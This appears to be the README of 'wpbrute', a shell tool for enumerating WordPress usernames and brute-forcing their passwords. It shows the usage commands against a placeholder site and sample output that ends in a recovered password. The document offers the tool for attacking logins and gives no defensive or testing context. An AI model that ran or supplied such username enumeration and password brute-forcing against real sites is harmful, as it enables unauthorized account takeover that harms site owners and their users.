 wpbrute
=======

Wordpress user enumeration and password bruteforce.

####User Enumeration:
<code>$ ./wpbrute.sh --url=www.example.com</code>
<pre>
[+] Username or nickname enumeration
admin
testuser
</pre>

####Password Bruteforce:
<code>$ ./wpbrute.sh --url=www.example.com --user=admin --wordlist=wordlist.txt</code>
<pre>
[+] Bruteforcing user [admin]
123456
test123
123test123
The password is: 123test123
</pre>
